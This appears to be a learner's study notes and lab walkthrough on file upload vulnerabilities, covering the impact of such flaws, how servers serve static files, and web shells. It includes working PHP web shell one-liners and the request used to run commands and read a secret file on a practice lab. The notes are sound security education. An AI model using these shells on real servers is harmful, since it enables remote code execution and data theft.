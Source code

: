 File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead.

# Impact of file upload vulnerabilities
RCE	Uploading web shells to run system commands
Data Theft	Reading configs, databases, secrets
Malware Distribution	Hosting malware or backdoors
XSS / Client Attacks	Uploading malicious HTML/SVG/JS files
Auth Bypass	Replacing or hijacking authentication mechanisms
DoS	Crashing services or filling disk space
Persistent Backdoors	Maintaining long-term control
Reputation Damage	Blacklisting, SEO damage, legal risks

# How Web Servers Handle Requests for Static Files
What are Static Files?
Static files are files that don’t change when different users request them. These include:
Images (.jpg, .png)
CSS stylesheets (.css)
JavaScript files (.js)
Fonts, PDFs, videos, etc.
They are not processed by the backend — they are just fetched and served.
How Web Servers Handle Static File Requests:
1. Parse the URL Path - Maps it to a file path on the server’s filesystem.
2. Identify File Extension
3. Map Extension to MIME Type - Server uses config to assign a Content-Type header.
4. Serve or Execute Based on Type & Server Config:
- Non-executable (static): File is sent directly (e.g., image, HTML).
- Executable + execution allowed: File is processed (e.g., .php → PHP interpreter).
- Executable + execution not allowed:
Server throws an error Or Sends raw source code (leads to information disclosure).

Key Headers:
Content-Type: Shows MIME type of file (e.g., text/html, image/png).


Web shell
A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

# Exploiting unrestricted file uploads to deploy a web shell:
1. The following PHP one-liner could be used to read arbitrary files from the server's filesystem
<?php echo file_get_contents('/path/to/target/file'); ?> 
Once uploaded, sending a request for this malicious file will return the target file's contents in the response. 
2.A more versatile web shell may look something like this:
<?php echo system($_GET['command']); ?>
This script enables you to pass an arbitrary system command via a query parameter as follows:
GET /example/exploit.php?command=id HTTP/1.1


# lab 001
Remote code execution via web shell upload
ques: This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. 
How to proceed
1. upload a basic PHP web shell
2. use it to exfiltrate the contents of the file /home/carlos/secret
How did I do it 
1. Under HTTP history filter window, Under Filter by MIME type, we enabled the Images checkbox. Upload any random image. 
2. Image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>
3. Created exploit.php, containing a script for fetching the contents of Carlos's secret file.
<?php echo file_get_contents('/home/carlos/secret'); ?> and then uplod it. 
4. Change the path of the request to point to your PHP file:
GET /files/avatars/exploit.php HTTP/1.1


#  Exploiting Flawed validation of file upload




# lab 002

